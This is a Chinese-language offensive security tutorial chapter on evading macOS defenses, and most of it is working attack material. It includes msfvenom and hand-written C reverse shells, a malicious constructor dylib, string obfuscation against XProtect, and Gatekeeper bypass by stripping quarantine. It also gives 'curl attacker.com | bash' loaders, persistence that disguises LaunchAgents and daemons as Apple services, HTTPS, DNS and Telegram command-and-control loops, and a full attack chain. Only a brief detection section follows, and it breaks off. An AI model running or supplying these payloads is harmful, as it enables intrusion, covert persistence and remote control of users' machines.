


## 四、macOS免杀与对抗实战

macOS 的安全防护体系由多层机制构成——Gatekeeper、XProtect、MRT（Malware Removal Tool）、SIP（System Integrity Protection）、AMFI（Apple Mobile File Integrity）、沙箱（Sandbox）和 TCC（Transparency, Consent, and Control）——层层叠加形成纵深防御。与 Windows 相比，macOS 的恶意软件生态规模较小，但这并不意味着攻防对抗的复杂度更低；恰恰相反，Apple 逐年收紧的安全策略使得每一层绕过都需要对底层机制有精确理解。

本章从 macOS 安全架构的原理出发，依次讲解 Payload 生成、各层防护绕过、持久化植入和隐蔽通信的完整实战流程，最后提供检测与防御视角，帮助攻防双方建立全面认知。

### 4.1 macOS 安全架构总览

在动手之前，必须理解 macOS 安全防线的层次结构和各层职责：

| 防护层 | 作用范围 | 检测时机 | 核心机制 |
|--------|----------|----------|----------|
| Gatekeeper | 应用首次运行 | 用户双击/`open`命令 | 验证开发者签名 + 公证（Notarization） |
| XProtect | 已知恶意软件 | 文件创建/执行/更新签名库 | YARA 规则匹配已知特征 |
| MRT | 已感染恶意软件 | 系统更新时后台移除 | 匹配已知恶意软件并清除 |
| SIP | 系统文件完整性 | 持续生效 | 限制 root 权限对受保护路径的修改 |
| AMFI | 代码完整性 | 代码加载时 | 验证签名、强制 entitlements、执行限制 |
| 沙箱 | App Store 应用 | 运行时持续 | 限制文件/网络/进程访问范围 |
| TCC | 用户隐私数据 | 首次访问时 | 弹窗授权（相机、麦克风、文件等） |



> **关键认知**：macOS 的安全不是单一机制，而是多层叠加。攻击者需要逐层突破，而防御者只需在任意一层拦截。理解这个全景图是所有后续技术的前提。

### 4.2 Payload 生成

#### 4.2.1 Mach-O 文件格式基础

macOS 可执行文件采用 Mach-O（Mach Object）格式，类似于 Linux 的 ELF 和 Windows 的 PE。理解其结构对免杀至关重要：

- **Header**：魔数（Magic Number）标识架构（`0xFEEDFACE` 为 32 位，`0xFEEDFACF` 为 64 位，`0xFEEDFAT` 为 Universal Binary）
- **Load Commands**：定义内存布局、动态库依赖、代码签名位置等
- **Sections**：实际代码（`__TEXT,__text`）和数据（`__DATA,__data`）

```bash
# 查看 Mach-O 文件头信息
otool -h payload

# 查看 Load Commands
otool -l payload

# 查看动态库依赖
otool -L payload

# 查看代码段
otool -tV payload
```

#### 4.2.2 使用 msfvenom 生成 Payload

msfvenom 是 Metasploit 框架中的 Payload 生成器，支持多种 macOS Payload 类型：

```bash
# 生成 reverse_tcp Meterpreter payload（Mach-O 格式）
msfvenom -p osx/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f macho -o payload_macho

# 生成简单 reverse shell
msfvenom -p osx/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f macho -o shell_macho

# 生成 bind shell
msfvenom -p osx/x64/shell_bind_tcp \
    LPORT=4444 \
    -f macho -o bind_shell

# 查看所有可用的 macOS Payload
msfvenom -l payloads | grep osx
```

**不同 Payload 类型的选择**：

| Payload | 适用场景 | 优势 | 劣势 |
|---------|----------|------|------|
| `shell_reverse_tcp` | 快速获取 shell | 体积小、简单 | 无加密、特征明显 |
| `meterpreter/reverse_tcp` | 完整后渗透 | 功能丰富、支持后渗透模块 | 体积大、易被检测 |
| `meterpreter/reverse_https` | 穿越防火墙 | HTTPS 流量伪装 | 需要证书配置 |
| `shell_reverse_tcp` + 编码 | 绕过基础检测 | 可叠加编码器 | 编码器本身也可能被检测 |

#### 4.2.3 使用 Cobalt Strike 生成 macOS Beacon

Cobalt Strike 的 macOS Beacon 提供更高级的隐蔽通信能力：

```text
操作路径：Attacks → Packages → macOS Application

配置项：
  - Payload Type: Raw (配合自定义加载器) 或 Windows DLL (用于 dylib 注入)
  - Listener: 建议使用 HTTPS 或 DNS（隐蔽性更好）
  - Output: macOS Application（生成 .app 包）或 Shellcode（配合自定义加载器）
  - Architecture: x64（现代 macOS 已不支持 32 位）
  - 使用 Malleable C2 Profile 自定义通信特征
```

#### 4.2.4 自定义 Shellcode 与编译

使用原生 C 代码编写 reverse shell，可以获得更小的体积和更大的可控性：

```c
// reverse_shell.c — macOS 原生 reverse shell
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(int argc, char *argv[]) {
    const char *attacker_ip = "10.10.10.1";
    int port = 4444;

    // 如果需要从命令行传参
    if (argc >= 3) {
        attacker_ip = argv[1];
        port = atoi(argv[2]);
    }

    // 创建 socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket");
        return 1;
    }

    // 配置目标地址
    struct sockaddr_in server_addr;
    memset(&server_addr, 0, sizeof(server_addr));
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(port);
    if (inet_pton(AF_INET, attacker_ip, &server_addr.sin_addr) <= 0) {
        perror("inet_pton");
        close(sockfd);
        return 1;
    }

    // 建立连接
    if (connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("connect");
        close(sockfd);
        return 1;
    }

    // 重定向标准输入/输出/错误到 socket
    dup2(sockfd, STDIN_FILENO);   // 0
    dup2(sockfd, STDOUT_FILENO);  // 1
    dup2(sockfd, STDERR_FILENO);  // 2

    // 启动交互式 shell
    char *args[] = {"/bin/bash", "-i", NULL};
    execve("/bin/bash", args, NULL);

    // execve 成功后不会执行到这里
    close(sockfd);
    return 0;
}
```

```bash
# 编译（静态链接减小依赖）
gcc -o reverse_shell reverse_shell.c -Wall

# 编译为 Position Independent Executable（PIE），增加分析难度
gcc -o reverse_shell reverse_shell.c -Wall -Wl,-pie -fPIE

# 剥除符号信息，减小体积并增加逆向难度
strip -x reverse_shell

# 使用 sstrip 进一步瘦身（需安装 elfutils 的 macOS 等价工具）
size reverse_shell  # 查看各段大小
```

#### 4.2.5 Shellcode 提取与注入

当需要将 Payload 以纯 shellcode 形式嵌入到其他进程或文档中时，需要提取代码段：

```bash
# 从编译好的 Mach-O 中提取 __TEXT,__text 段
# 使用 objcopy 或自定义脚本提取
otool -t reverse_shell | tail -n +3 | \
    awk '{for(i=1;i<=NF;i++) printf "\\x%s", $i}' > shellcode.bin

# 验证 shellcode 不含空字节（某些注入场景要求）
python3 -c "
import sys
data = open('shellcode.bin', 'rb').read()
if b'\x00' in data:
    print(f'WARNING: {data.count(b\"\\x00\")} null bytes found')
else:
    print('OK: no null bytes')
"
```

### 4.3 Gatekeeper 绕过

Gatekeeper 是 macOS 的第一道防线，它在应用首次执行时验证其来源可信度。macOS Ventura 及之后版本将 Gatekeeper 策略与 Notarization 深度绑定，绕过难度显著增加。

#### 4.3.1 Gatekeeper 的工作原理



#### 4.3.2 移除隔离属性（Quarantine）

Gatekeeper 通过 `com.apple.quarantine` 扩展属性标记从网络下载的文件。移除该属性是最简单的绕过方式：

```bash
# 查看隔离属性
xattr -l payload.app
# 输出示例：com.apple.quarantine: 0081;64a1b2c3;Safari;A1B2C3D4-E5F6-...

# 移除单个文件的隔离属性
xattr -d com.apple.quarantine payload.app

# 递归移除 .app 包内所有文件的隔离属性
xattr -r -d com.apple.quarantine payload.app

# 批量移除目录下所有应用的隔离属性
find /Applications -name "*.app" -exec xattr -r -d com.apple.quarantine {} \; 2>/dev/null
```

> **注意**：macOS Ventura+ 引入了更严格的策略，仅移除 quarantine 属性对部分场景已不够——如果应用没有合法签名或未通过公证，Gatekeeper 仍可能阻止执行。

#### 4.3.3 代码签名绕过

**使用开发者证书签名**：

```bash
# 使用有效的 Apple Developer ID 签名
codesign --force --deep --sign "Developer ID Application: Your Name (TEAMID)" payload.app

# 验证签名详情
codesign -dvvv payload.app

# 检查签名是否通过公证
spctl -a -vvv payload.app
# 成功输出：source=Notarized Developer ID
```

**Ad-hoc 签名（无开发者账号）**：

```bash
# Ad-hoc 签名——使用本地标识，不经过 Apple 验证
codesign --force --deep --sign - payload.app

# Ad-hoc 签名的应用在本机可以运行，但在其他机器上仍会触发 Gatekeeper
# 验证
codesign -dvvv payload.app
# 输出中会显示 Signature=adhoc
```

**使用企业证书（Enterprise/In-House）**：

企业证书可以分发给组织内部设备而无需经过 App Store 审核，但 Apple 会监控滥用行为并吊销证书：

```bash
# 使用企业证书签名
codesign --force --deep --sign "iPhone Distribution: Enterprise Name (TEAMID)" payload.app

# 重要：Apple 的 OCSP 检查可能随时吊销滥用的证书
# 拔网线可暂时阻止 OCSP 检查（不推荐，影响系统其他功能）
```

#### 4.3.4 通过合法应用加载恶意代码

利用已签名的合法应用作为加载器，是绕过 Gatekeeper 的经典方法：

**方法一：使用已签名的解释器执行脚本**

```bash
#!/bin/bash
# loader.sh — 利用系统自带的已签名工具下载并执行 payload
# /bin/bash、/usr/bin/python3 等系统二进制文件已有 Apple 签名

# 下载 payload（使用 curl，系统自带且已签名）
/usr/bin/curl -s -o /tmp/.helper http://attacker.com/payload \
    --connect-timeout 10 \
    -H "User-Agent: Mozilla/5.0"

# 赋予执行权限
chmod +x /tmp/.helper

# 后台执行
nohup /tmp/.helper > /dev/null 2>&1 &
```

**方法二：利用 macOS 原生脚本引擎**

```bash
# 使用 osascript（已签名的 Apple 工具）执行任意命令
osascript -e 'do shell script "curl -s http://attacker.com/c2 | bash" with administrator privileges'

# 使用 Swift 脚本（swift 解释器已签名）
swift -e 'import Foundation; let task = Process(); task.executableURL = URL(fileURLWithPath: "/bin/bash"); task.arguments = ["-c", "curl -s http://attacker.com/c2 | bash"]; try task.run(); task.waitUntilExit()'
```

**方法三：利用 Automator / AppleScript 应用**

```bash
# 创建一个 Automator .app，内部执行 shell 脚本
# 通过 Automator 创建的 .app 使用 Automator 框架签名，但内部 payload 未验证
# 需要手动 ad-hoc 签名

# 创建 .app 结构
mkdir -p Payload.app/Contents/MacOS
cat > Payload.app/Contents/Info.plist << 'PLIST'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Payload</string>
    <key>CFBundleIdentifier</key>
    <string>com.apple.helper.update</string>
    <key>CFBundleName</key>
    <string>System Update</string>
    <key>CFBundleVersion</key>
    <string>1.0</string>
</dict>
</plist>
PLIST

# 编写可执行文件（可以是编译的二进制或 shell 脚本）
cp reverse_shell Payload.app/Contents/MacOS/Payload

# 签名
codesign --force --deep --sign - Payload.app
```

### 4.4 XProtect 绕过

XProtect 是 macOS 内置的反恶意软件引擎，使用 YARA 规则匹配已知恶意软件特征。它的签名库随系统更新自动更新（无需用户干预），但更新频率和规则覆盖范围有限。

#### 4.4.1 XProtect 的检测机制

XProtect 主要通过以下维度识别恶意软件：

- **文件哈希**：已知恶意软件的 MD5/SHA256
- **代码特征**：特定的字节序列或字符串模式
- **Mach-O 结构特征**：异常的 Load Commands、非标准段名
- **行为特征**：某些 API 调用组合（在 MRT 中更常见）

```bash
# 查看 XProtect 签名库位置
ls -la /Library/Apple/System/Library/CoreServices/XProtect.bundle/Contents/Resources/

# 查看当前 XProtect 版本
system_profiler SPInstallHistoryDataType | grep -A 5 "XProtect"
```

#### 4.4.2 代码混淆策略

**编译器级混淆**：

```bash
# 使用不同编译选项改变生成的二进制特征
# 开启优化级别
gcc -O2 -o payload payload.c

# 生成位置无关代码
gcc -fPIE -Wl,-pie -o payload payload.c

# 添加无害代码改变哈希
gcc -DDECOY_CODE -o payload payload.c

# strip 移除调试符号
strip -x payload
```

**代码级混淆——拆分关键字符串**：

```c
// 原始代码（特征明显，易被 YARA 匹配）
// const char *cmd = "/bin/bash";

// 拼接方式构建敏感字符串
char cmd[16];
cmd[0] = '/';
cmd[1] = 'b';
cmd[2] = 'i';
cmd[3] = 'n';
cmd[4] = '/';
cmd[5] = 'b';
cmd[6] = 'a';
cmd[7] = 's';
cmd[8] = 'h';
cmd[9] = '\0';

// 或者使用 XOR 编码
unsigned char encoded[] = {0x1d, 0x15, 0x1b, 0x17, 0x1d, 0x15, 0x18, 0x2e, 0x07};
char decoded[16];
for (int i = 0; i < sizeof(encoded); i++) {
    decoded[i] = encoded[i] ^ 0x37;  // XOR key
}
decoded[sizeof(encoded)] = '\0';
```

**使用 Objective-C 运行时特性**：

Objective-C 的消息传递机制天然适合动态调用，可以有效绕过静态分析：

```objective-c
// 使用 objc_msgSend 动态调用，避免直接引用敏感方法名
#import <objc/runtime.h>
#import <Foundation/Foundation.h>

void executePayload(void) {
    // 动态获取 NSTask 类——字符串可拆分/编码
    Class taskClass = objc_getClass("NSTask");
    if (!taskClass) return;

    // 创建 NSTask 实例
    id task = [[taskClass alloc] init];

    // 设置启动路径——使用 NSURL 避免直接字符串引用
    NSURL *bashURL = [NSURL fileURLWithPath:
        [NSString stringWithFormat:@"%@%@%@",
            @"/bin", @"/", @"bash"]];

    [task setLaunchPath:bashURL.path];
    [task setArguments:@[@"-c", @"echo 'payload executed'"]];

    // 使用 NSNotificationCenter 或 KVO 注入更复杂的逻辑
    // 通过 performSelector 动态调用
    SEL launchSel = NSSelectorFromString(@"launch");
    [task performSelector:launchSel];

    [task waitUntilExit];
}
```

```bash
# 编译 Objective-C 代码
clang -framework Foundation -o payload payload.m -fobjc-arc
```

#### 4.4.3 动态加载与 dylib 注入

dylib 注入是 macOS 上绕过静态分析的核心技术，利用 `DYLD_INSERT_LIBRARIES` 环境变量在目标进程启动时加载恶意动态库：

```c
// evil_dylib.c — 恶意动态库
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// 使用 constructor 属性，在 dylib 加载时自动执行
__attribute__((constructor))
static void payload_init(void) {
    // 在新线程中执行，避免阻塞宿主进程
    if (fork() == 0) {
        // 子进程执行 reverse shell
        int sockfd = socket(AF_INET, SOCK_STREAM, 0);
        struct sockaddr_in addr = {
            .sin_family = AF_INET,
            .sin_port = htons(4444),
            .sin_addr.s_addr = inet_addr("10.10.10.1")
        };
        connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
        dup2(sockfd, 0);
        dup2(sockfd, 1);
        dup2(sockfd, 2);
        execve("/bin/bash", (char *[]){"/bin/bash", "-i", NULL}, NULL);
    }
    // 父进程正常返回，宿主应用不受影响
}
```

```bash
# 编译动态库
gcc -dynamiclib -o evil.dylib evil_dylib.c -fPIC

# 使用 DYLD_INSERT_LIBRARIES 注入到目标进程
DYLD_INSERT_LIBRARIES=./evil.dylib /Applications/Safari.app/Contents/MacOS/Safari
```

> **重要限制**：macOS 的 SIP（System Integrity Protection）会阻止 `DYLD_INSERT_LIBRARIES` 对受保护进程生效。SIP 保护的进程包括系统二进制文件和所有 Apple 签名的应用。绕过 SIP 需要更高级的内核利用技术（见 4.4.4 节）。

#### 4.4.4 SIP（System Integrity Protection）的边界

SIP 限制了 root 用户对系统关键路径的修改能力：

**受 SIP 保护的路径**：
- `/System`
- `/usr`（`/usr/local` 除外）
- `/bin`
- `/sbin`
- `/Applications`（预装应用）

**SIP 状态检查**：

```bash
# 检查 SIP 是否启用
csrutil status
# 输出：System Integrity Protection status: enabled.

# 在恢复模式下禁用 SIP（需要物理接触设备）
# 重启 → 按住 Cmd+R → 打开终端 → csrutil disable → 重启
```

**在 SIP 启用时的绕过思路**：

- 利用用户空间的合法应用（不在 SIP 保护范围内的路径）
- 利用已签名的脚本解释器（bash、python3、swift）执行恶意逻辑
- 利用 Kernel Extension（已废弃）或 System Extension（需要用户批准）
- 利用 Electron 应用的 `--inspect` 调试参数注入代码

### 4.5 持久化技术

macOS 提供多种自启动机制，攻击者可以利用这些合法功能实现持久化。以下按照隐蔽程度从低到高排列。

#### 4.5.1 Login Items（登录项）

最简单的持久化方式，但在系统设置中对用户可见：

```bash
# 使用 AppleScript 添加登录项（macOS Monterey 及之前版本）
osascript -e '
    tell application "System Events"
        make login item at end with properties {
            path:"/Users/victim/.hidden/payload",
            hidden:true
        }
    end tell
'

# 使用 SMLoginItemSetEnabled（需要 app bundle）
# 这种方式在系统设置中显示为应用名称，更隐蔽
```

#### 4.5.2 Launch Agent（用户级守护进程）

Launch Agent 是 macOS 最常用的持久化机制之一。它在用户登录时自动启动，以当前用户权限运行：

```bash
# 创建 Launch Agent plist
# 命名建议伪装为系统服务
cat > ~/Library/LaunchAgents/com.apple.icloud.updater.plist << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
    "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.icloud.updater</string>
    <key>ProgramArguments</key>
    <array>
        <string>/bin/zsh</string>
        <string>-c</string>
        <string>while true; do
            sleep $((RANDOM % 300 + 300));
            /usr/bin/curl -s -o /tmp/.c2 http://attacker.com/c2 && \
            chmod +x /tmp/.c2 && /tmp/.c2;
        done</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
    <key>StandardErrorPath</key>
    <string>/dev/null</string>
    <key>StandardOutPath</key>
    <string>/dev/null</string>
    <key>ProcessType</key>
    <string>Background</string>
    <key>Nice</key>
    <integer>20</integer>
</dict>
</plist>
EOF

# 加载 Launch Agent
launchctl load ~/Library/LaunchAgents/com.apple.icloud.updater.plist

# 验证加载状态
launchctl list | grep icloud

# 查看 agent 详细信息
launchctl print gui/$(id -u)/com.apple.icloud.updater
```

#### 4.5.3 Launch Daemon（系统级守护进程）

Launch Daemon 在系统启动时运行，以 root 权限执行。需要写入 `/Library/LaunchDaemons/`，需要管理员权限：

```bash
# 创建 Launch Daemon（需要 sudo）
sudo tee /Library/LaunchDaemons/com.apple.syslogd.plist > /dev/null << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
    "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.syslogd</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/local/bin/syslog-helper</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
</dict>
</plist>
EOF

# 设置正确的权限（launchd 要求 root 拥有且不能被其他用户写入）
sudo chown root:wheel /Library/LaunchDaemons/com.apple.syslogd.plist
sudo chmod 644 /Library/LaunchDaemons/com.apple.syslogd.plist

# 加载
sudo launchctl load /Library/LaunchDaemons/com.apple.syslogd.plist
```

#### 4.5.4 Cron Job

Cron 是传统的定时任务系统，在 macOS 上仍然可用，但已被标记为 deprecated：

```bash
# 添加 cron 任务（每 5 分钟执行一次）
(crontab -l 2>/dev/null; echo "*/5 * * * * /usr/bin/curl -s http://attacker.com/c2 | /bin/bash") | crontab -

# 验证
crontab -l

# macOS 的 cron 需要辅助启动项才能在重启后生效
# 创建 com.vix.cron 的 Launch Daemon
```

#### 4.5.5 Periodic Scripts（周期性脚本）

macOS 的 `periodic` 系统每天/每周/每月执行维护脚本，可以将恶意代码注入其中：

```bash
# daily 脚本在 /etc/periodic/daily/ 目录下
# 创建一个看起来无害的脚本
sudo tee /etc/periodic/daily/999.cleanup > /dev/null << 'EOF'
#!/bin/bash
# "系统清理任务"
/usr/bin/curl -s http://attacker.com/c2 | /bin/bash 2>/dev/null
EOF

sudo chmod 755 /etc/periodic/daily/999.cleanup
```

#### 4.5.6 其他持久化向量

| 向量 | 隐蔽程度 | 需要权限 | 重启后存活 | 说明 |
|------|----------|----------|------------|------|
| Login Items | 低 | 用户 | 是 | 系统设置中可见 |
| Launch Agent | 中 | 用户 | 是 | 最常用，用户级 |
| Launch Daemon | 中 | root | 是 | 系统级，需 sudo |
| Cron | 中 | 用户 | 需额外配置 | 已 deprecated |
| Periodic Scripts | 高 | root | 是 | 利用系统维护机制 |
| Login Hooks | 高 | root | 是 | `defaults write com.apple.loginwindow LoginHook /path/to/script` |
| Authorization Plugins | 极高 | root | 是 | 插入 `/Library/Security/SecurityAgentPlugins/` |
| Kernel Extensions | 极高 | root+内核 | 是 | macOS 已严格限制，需用户批准 |
| Application Scripting | 高 | 用户 | 触发式 | 利用 Finder/Calendar 等的 AppleScript 事件 |

### 4.6 沙箱与 TCC 绕过

#### 4.6.1 macOS 沙箱机制

macOS 沙箱基于 TrustedBSD MAC 框架，通过 Profile 文件定义进程的权限边界：

```bash
# 查看某个应用的沙箱 Profile
codesign -d --entitlements - /Applications/Safari.app

# 查看沙箱状态
sandbox-exec -p '(version 1)(allow default)' /bin/bash
```

**沙箱 Profile 语法示例**：

```scheme
;; 自定义沙箱 Profile — 只允许网络访问
(version 1)
(allow default)
(deny file*)
(allow file-read* (subpath "/usr/lib"))
(allow mach-lookup (global-name "com.apple.dns"))
(allow network*)
```

#### 4.6.2 TCC 绕过思路

TCC 保护用户的隐私数据（摄像头、麦克风、屏幕录制、文件访问等），存储在 SQLite 数据库中：

```bash
# TCC 数据库位置
ls -la ~/Library/Application\ Support/com.apple.TCC/TCC.db

# 查看已授权的应用
sqlite3 ~/Library/Application\ Support/com.apple.TCC/TCC.db \
    "SELECT client, service, auth_value FROM access;"

# 尝试直接修改 TCC 数据库（macOS Catalina+ 需要 Full Disk Access 权限）
# 这是一个鸡生蛋的问题——你需要 TCC 权限才能修改 TCC 数据库
```

**合法绕过思路**：

- 利用已授予 Full Disk Access 的应用（如终端、Finder）作为跳板
- 利用 AppleScript/`osascript` 调用已授权应用的功能
- 利用 `tccutil` 命令行工具（功能有限）
- 在企业环境中，通过 MDM Profile 预授权 TCC 权限

### 4.7 网络隐蔽通信

#### 4.7.1 DNS 隧道

DNS 流量通常不被深度检测，是理想的隐蔽通信通道：

```bash
# 使用 dnscat2 建立 DNS 隧道
# 服务端（攻击者）
ruby dnscat2.rb --dns domain=attacker.com --secret=mysecret

# 客户端（受害者 macOS）
./dnscat2 --dns domain=attacker.com --secret=mysecret
```

#### 4.7.2 HTTPS C2 通信

使用 HTTPS 进行 C2 通信，流量看起来与正常网页浏览无异：

```bash
# 使用 curl 通过 HTTPS 与 C2 通信
C2_SERVER="https://attacker.com/api/v1"
while true; do
    # 获取指令
    cmd=$(/usr/bin/curl -s -A "Mozilla/5.0" \
        -H "Authorization: Bearer token123" \
        "${C2_SERVER}/task" 2>/dev/null)

    if [ -n "$cmd" ] && [ "$cmd" != "sleep" ]; then
        # 执行指令并回传结果
        result=$(eval "$cmd" 2>&1)
        /usr/bin/curl -s -X POST \
            -A "Mozilla/5.0" \
            -H "Authorization: Bearer token123" \
            -d "$result" \
            "${C2_SERVER}/result"
    fi
    sleep $((RANDOM % 120 + 60))
done
```

#### 4.7.3 利用合法服务作为 C2

利用 GitHub Gist、Pastebin、Telegram Bot API 等合法服务作为中间信道：

```bash
# 通过 Telegram Bot API 通信（流量看起来完全合法）
BOT_TOKEN="your_bot_token"
CHAT_ID="your_chat_id"
API="https://api.telegram.org/bot${BOT_TOKEN}"

# 获取最新指令
msg=$(curl -s "${API}/getUpdates" | \
    python3 -c "import sys,json; d=json.load(sys.stdin); print(d['result'][-1]['message']['text'])" 2>/dev/null)

# 执行并回传结果
result=$(eval "$msg" 2>&1)
curl -s -X POST "${API}/sendMessage" \
    -d "chat_id=${CHAT_ID}" \
    -d "text=$(echo "$result" | head -c 4000)"
```

### 4.8 综合实战案例：从 Payload 到持久化

以下演示一个完整的 macOS 攻击链，从 Payload 生成到隐蔽持久化的全流程：

**攻击链流程图**：


**步骤一：生成并混淆 Payload**

```bash
# 1. 编写自定义 reverse shell（见 4.2.4 节）
# 2. 编译为 PIE 并 strip
gcc -fPIE -Wl,-pie -O2 -o .helper reverse_shell.c
strip -x .helper

# 3. Ad-hoc 签名
codesign --force --sign - .helper
```

**步骤二：包装为 .app 包**

```bash
# 创建 .app 包结构
APP_NAME="SystemUpdate.app"
mkdir -p "${APP_NAME}/Contents/MacOS"

# 创建 Info.plist
cat > "${APP_NAME}/Contents/Info.plist" << 'PLIST'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>SystemUpdate</string>
    <key>CFBundleIdentifier</key>
    <string>com.apple.maintenance.sysupdate</string>
    <key>CFBundleName</key>
    <string>System Update</string>
    <key>CFBundleVersion</key>
    <string>2.1.4</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
</dict>
</plist>
PLIST

# 复制 payload
cp .helper "${APP_NAME}/Contents/MacOS/SystemUpdate"

# 深度签名
codesign --force --deep --sign - "${APP_NAME}"
```

**步骤三：投递与执行**

```bash
# 移除隔离属性
xattr -r -d com.apple.quarantine "${APP_NAME}"

# 执行
open "${APP_NAME}"

# 或者通过 curl 远程投递
# 攻击者服务器：python3 -m http.server 8080
# 目标机器：
curl -s -o /tmp/update.zip http://attacker.com/SystemUpdate.app.zip
unzip -o /tmp/update.zip -d /tmp/
xattr -r -d com.apple.quarantine /tmp/SystemUpdate.app
open /tmp/SystemUpdate.app
```

**步骤四：安装持久化**

Payload 执行后，立即安装 Launch Agent 实现持久化：

```bash
#!/bin/bash
# persist.sh — Payload 内置的持久化逻辑

INSTALL_DIR="$HOME/.local/share/.helper"
PLIST_PATH="$HOME/Library/LaunchAgents/com.apple.maintenance.sysupdate.plist"

# 创建隐蔽目录
mkdir -p "$INSTALL_DIR"
cp "$0" "$INSTALL_DIR/sysupdate"
chmod +x "$INSTALL_DIR/sysupdate"

# 创建 Launch Agent
cat > "$PLIST_PATH" << PLIST
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.maintenance.sysupdate</string>
    <key>ProgramArguments</key>
    <array>
        <string>${INSTALL_DIR}/sysupdate</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <dict>
        <key>SuccessfulExit</key>
        <false/>
    </dict>
    <key>StandardErrorPath</key>
    <string>/dev/null</string>
    <key>StandardOutPath</key>
    <string>/dev/null</string>
</dict>
</plist>
PLIST

# 加载 agent
launchctl load "$PLIST_PATH"
```

### 4.9 检测与防御

了解攻击技术后，防御方同样需要掌握对应的检测和加固手段。

#### 4.9.1 日志审查

```bash
# 检查新添加的 Launch Agent/Daemon
find ~/Library/LaunchAgents /Library/LaunchDaemons /Library/LaunchAgents \
    -name "*.plist" -newer /var/log/system.log -exec ls -la {} \;

# 检查可疑的 cron 任务
crontab -l 2>/dev/null | grep -v "^#"

# 检查 DYLD 环境变量设置
env | grep DYLD

# 检查代码签名
codesign --verify --deep --strict /Applications/Safari.app

# 查看 Gatekeeper 日志
log show --predicate 'subsystem == "com.apple.syspolicy"' --last 1h

# 查看 XProtect 检测日志
log show --predicate 'process == "XProtect"' --last 1h
```

#### 4.9.2 加固措施

```bash
# 1. 启用 SIP（如果被禁用）
# 在恢复模式下执行：csrutil enable

